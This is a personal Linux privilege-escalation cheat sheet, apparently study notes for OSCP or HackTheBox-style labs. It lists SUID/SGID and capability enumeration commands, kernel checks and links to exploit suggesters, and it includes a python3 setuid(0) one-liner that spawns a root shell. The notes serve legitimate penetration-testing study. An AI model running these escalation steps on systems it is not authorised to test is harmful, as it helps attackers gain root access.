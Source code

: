 # Linux Privesc

{% embed url="https://github.com/RajChowdhury240/OSCP-CheatSheet/blob/main/Linux%20-%20Privilege%20Escalation.md#systemd-timers" %}

incorrect path, scripts running as root, cronjobs, docker container, git server

there are some crazy techniques ippsec and tj the plugs, we gonna document those and any cool ones we do here

```
sudo -l
find / -perm -g=s -type f 2>/dev/null    # SGID
find / -perm -u=s -type f 2>/dev/null    # SUID

find / -perm -g=s -o -perm -u=s -type f 2>/dev/null    # SGID or SUID < full search  
for i in `locate -r "bin$"`; do find $i \( -perm -4000 -o -perm -2000 \) -type f 2>/dev/null; done    # Looks in 'common' places: /bin, /sbin < quicker  

-find starting at root (/), SGID or SUID, not Symbolic links, only 3 folders deep, list with more detail and hide any errors (e.g. permission denied)
find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null  

find / perm /u=s -user "Username" 2>/dev/null  
```

#### Find SUID root files <a href="#find-suid-root-files" id="find-suid-root-files"></a>

```
find / -user root -perm -4000 -print  2>/dev/null
```

#### Find SGID root files: <a href="#find-sgid-root-files" id="find-sgid-root-files"></a>

```
find / -group root -perm -2000 -print 2>/dev/null
```

#### Find SUID and SGID files owned by anyone: <a href="#find-suid-and-sgid-files-owned-by-anyone" id="find-suid-and-sgid-files-owned-by-anyone"></a>

```
find / -perm -4000 -o -perm -2000 -print  2>/dev/null
```

### Capabilities

```
/usr/bin/getcap -r / 2>/dev/null        # list all 
/usr/bin/setcap -r /bin/ping            # remove
/usr/bin/setcap cap_net_raw+p /bin/ping # add
./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

### Kernel <a href="#kernel" id="kernel"></a>

{% embed url="https://github.com/mzet-/linux-exploit-suggester" %}

{% embed url="https://github.com/jondonas/linux-exploit-suggester-2" %}

```
cat /proc/version
uname -a
uname -ar
uname -mrs
rpm -q kernel
dmesg | grep Linux
ls /boot | grep vmlinuz-
```

{% embed url="https://guif.re/linuxeop" %}

{% embed url="https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks?source=post_page-----16397895490f--------------------------------" %}
READDDD from HTB Usage
{% endembed %}

{% embed url="https://t0o0tz.com/posts/post0x0004/" %}
